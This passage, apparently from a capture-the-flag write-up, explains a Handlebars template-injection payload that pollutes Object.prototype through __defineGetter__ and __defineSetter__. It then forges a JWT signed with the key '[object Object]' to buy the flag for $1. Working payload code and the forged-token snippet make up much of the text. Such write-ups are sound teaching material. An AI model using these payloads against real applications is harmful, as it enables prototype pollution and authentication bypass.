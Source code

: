 ```js  
 Object.defineProperty(  
   Object.prototype, 'key', {  
    get: function(){  
      return this.toString()  
    }  
    set: function(){  
      return this.toString()  
    }  
  }  
 )  
```

Since we cannot access any `constructor` property, getting reference to
`Object` is a challenging task. But there is another way to define [setter] or
[getter]. There are deprecated features like [\_\_defineSetter\_\_] and
[\_\_defineGetter\_\_] that still work. These can be called in [handlebars]
for example in that payload: `{{this.__proto__.__defineGetter__}}`. I managed
to use this and override the prototype with the following payload:

```js  
{{#with this.__proto__ as |o|}}  
   {{o.__defineGetter__ "key" toString}}  
   {{o.__defineSetter__ "key" toString}}  
{{/with}}  
```

It is equivalent to the `Object.defineProperty` mentioned above. What it does
is:  
1) Setting a context to the prototype of `[object]` and aliasing it to `|o|`
via [#with] helper.  
2) Calling [\_\_defineSetter\_\_] and [\_\_defineGetter\_\_] on
`Object.prototype` with `key` as attribute and `this.toString()` as a callback
that override [setter] and [getter].  
3) After that, accessing `[object].key` on newly created objects shall now
return `[object Object]` as a string and it cannot be overriden using
`[object].key = ...` because we overrode a setter function.

### Win the lottery  
So now, the last missing piece is to forge a valid `token` with `[object
Object]` as a key and `flag.flag` as an id.

```py  
# Forge flag token  
flag_token = jwt.encode({  
   "id": "flag.flag",  
   "price": 1,  
   "iat": 1568568228  
 }, '[object Object]', algorithm='HS256')

```

Then using it to purchase the flag for `$1` in our store.

I automated the process with [solve.py] where I briefly described each step.
By executing the exploit I got the flag
**flag{npm_devs_are_pretty_bad_at_fixing_bugs}**
